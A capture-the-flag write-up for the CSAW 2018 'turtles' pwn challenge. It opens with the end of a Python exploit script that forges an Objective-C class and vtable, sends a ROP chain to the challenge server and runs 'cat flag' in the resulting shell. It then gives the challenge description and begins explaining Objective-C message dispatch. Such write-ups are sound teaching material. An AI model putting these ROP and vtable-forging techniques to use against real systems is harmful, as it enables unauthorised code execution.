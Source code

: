 ```py  
   p64(turtle + base_vtable + 0x00 - 0x040) + # class

   rop.chain().ljust(base_data - 8, b"\0") +  
   data.ljust(base_vtable - base_data, b"\0") +

   p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct  
   p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1  
   p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2  
   p64(method)  
)

r.send(payload.ljust(200, b'A'))

r.sendline(b"cat flag")  
print(r.readline().decode())  
```

Original writeup (https://losfuzzys.github.io/writeup/2018/09/20/csawctfquals-
turtles/).* **Category:** pwn  
* **Points:** 250  
* **Description:**

> Looks like you found a bunch of turtles but their shells are nowhere to be  
> seen! Think you can make a shell for them?  
>  
> ```sh  
> nc pwn.chal.csaw.io 9003  
> ```  
>  
>
> [turtles](https://ctf.csaw.io/files/b3adfcc8a5cd4a1bf9a413c6f46fb212/turtles)  
>
> [libs.zip](https://ctf.csaw.io/files/f8d7ea4fde01101de29de49d91434a5a/libs.zip)

## Writeup

We get an x86\_64 linux binary, and reading the main function immediately show  
us this is an Objective-C program (`objc_get_class` and `objc_msg_lookup`).

For those unfamiliar with Objective-C, it is mostly like C, but there is a  
mechanism for Object-Oriented-Programming where methods on objects are called  
using the functions `objc_msg_send` and `objc_msg_lookup` (in the ABI, the  
syntax for it looks like `[instance method: parameter]`).

A "message" is just a method call. Methods are identified by a "selector",
which  
is just the method name. At runtime these selectors are replaced with a 64-bit  
value consisting of two relatively low 32-bit integers concatenated together.

The problem with `objc_msg_send` and selectors is that it is quite hard to
find  
cross-references when analyzing a binary. In this case the classes are quite  
simple, so this is not a problem.
